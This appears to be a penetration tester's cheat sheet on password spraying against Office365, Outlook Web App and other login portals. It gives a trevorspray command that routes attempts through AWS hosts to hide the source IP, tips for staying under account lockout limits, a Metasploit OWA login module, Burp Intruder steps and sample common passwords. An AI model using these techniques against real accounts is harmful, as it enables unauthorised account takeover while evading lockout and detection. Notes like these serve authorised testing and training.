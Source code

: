 
## Password Spraying Office365

Majority of clients uses microsoft, because AD

### One spray pass Tool example
```python
trevorspray.py -e <list of emails> -passwords 'winter20!' --delay 10 --no-current-ip --ssh user@ip -k <key>.pem (aws key pair)

# delay = time to try again
# no-current-ip = not set our ip 
# a couple of user@ip because will spray one at time
# if the delay is 10sec and you have 10 accounts, after 100secs the spray will come back to the first, so its a good practice to not block the account.
```

- Be aware of the lock out password policy
- If you get lock account error, stop the spraying
- If the lock out policy is lets say 5 tries, try 4 times then try another 4 an hour later


Sign in for AWS

Go to aws management console:
```
ec2 > launch VM
ubuntu > free tier eligible
launch instances
grab the public IP
and put in the script user@ip after spraying in the ip of the target
```



## Password Spraying OWA (outlook web app)
```
metasploit > search owa
use auxiliary/scanner/http/owa_login
set options
```




## Attacking Other Portals
```
- With other type of portals we go to Burp
- set scope > options AND target scope 
- intercept the request
- send to intruder/repeater
- intruder > options > grep - match > add the login error
- in options > set the password as variable
- sniper attack > payloads > add some common passwords (winter2021!, summer2021@ etc)
- look at the length/status code/the grep match of the login error
```

